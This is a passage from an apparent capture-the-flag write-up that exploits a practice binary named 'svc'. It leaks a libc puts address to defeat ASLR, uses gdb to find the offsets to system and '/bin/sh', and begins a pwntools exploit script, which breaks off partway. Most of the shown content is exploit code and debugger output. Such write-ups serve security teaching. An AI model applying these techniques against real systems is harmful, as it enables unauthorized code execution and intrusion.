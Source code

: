 and when we run it:

```
$	python leak1.py
```

...

```
[*] puts_leak: 0x7febc7688920
[*] Switching to interactive mode
```

and when we check that address in gdb, we can see that we have the right address:

```
gdb-peda$ p puts
$2 = {<text variable, no debug info>} 0x7febc7688920 <_IO_puts>
```

So we can successfully leak a libc address to break aslr. Let's find the offsets from the libc address of `system` and `/bin/sh` to `puts`, so we can calculate the addresses of `system` and `/bin/sh` in our exploit:

```
gdb-peda$ p puts
$4 = {<text variable, no debug info>} 0x7febc7688920 <_IO_puts>
gdb-peda$ p system
$5 = {<text variable, no debug info>} 0x7febc765d6a0 <__libc_system>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7febc77a2c40 --> 0x68732f6e69622f ('/bin/sh')
```

and now onto python

```
>>> hex(0x7febc765d6a0 - 0x7febc7688920) 
'-0x2b280'
>>> hex(0x7febc77a2c40 - 0x7febc7688920) 
'0x11a320'
```

So the offset to system is `-0x2b280` and the offset to /bin/sh is `0x11a320`.  Let's test these offsets in our exploit to see if we can calculate those addresses:

Here is the modified script
```
#Import pwntools
from pwn import *

#Establish the target process, and attack gdb
target = process("./svc")
gdb.attach(target)
elf = ELF('svc')

#Establish the needed addresses
puts_got = 0x602018
puts_plt = 0x4008d0
gadget = 0x400ea3

log.info("puts_got is: " + hex(puts_got))
log.info("puts_plt is: " + hex(puts_plt))
log.info("gadget addr: " + hex(gadget))

#Specify that the menu option to scan in data into memory
print target.recvuntil(">>")
target.sendline('1')
print target.recvuntil(">>")

```